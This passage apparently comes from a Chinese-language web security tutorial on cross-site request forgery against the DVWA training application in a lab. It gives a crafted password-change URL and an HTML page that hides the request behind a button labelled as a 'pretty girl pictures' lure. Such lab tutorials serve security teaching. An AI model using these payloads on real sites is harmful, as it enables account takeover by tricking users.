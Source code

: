 ```
    } 

    mysql_close(); 
} 

?> 
```
在代码层面我们可以知道并没有任何的防御，我们看下截获的包
![](web安全实战学习-CSRF/4.png)

哈哈，直接get的包被明文传输，ok,直接构建链接我们来看下
192.168.20.4/DVWA-1.9/vulnerabilities/csrf/?password_new=xiaoming&password_conf=xiaoming&Change=Change#

 当然你也可以包装一下咯，学过html的我们可以构建出我们想要的页面，只需要将链接隐藏在里面就可以了
 我们看下，

```
<!DOCTYPE html>
<!--[if lt IE 7]>      <html class="no-js lt-ie9 lt-ie8 lt-ie7"> <![endif]-->
<!--[if IE 7]>         <html class="no-js lt-ie9 lt-ie8"> <![endif]-->
<!--[if IE 8]>         <html class="no-js lt-ie9"> <![endif]-->
<!--[if gt IE 8]><!--> <html class="no-js"> <!--<![endif]-->
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <title></title>
        <meta name="description" content="">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="">
    </head>
    <body>
        <form action="192.168.20.4/DVWA-1.9/vulnerabilities/csrf/?password_new=xiaoming&password_conf=xiaoming&Change=Change#">
			<input type="hidden" AUTOCOMPLETE="off" name="password_new">
			<input type="hidden" AUTOCOMPLETE="off" name="password_conf">
			<input type="hidden" value="Change" name="Change">
            <input type="submit" value="美女图片">
        </form>
        
        <script src="" async defer></script>
    </body>
</html>
```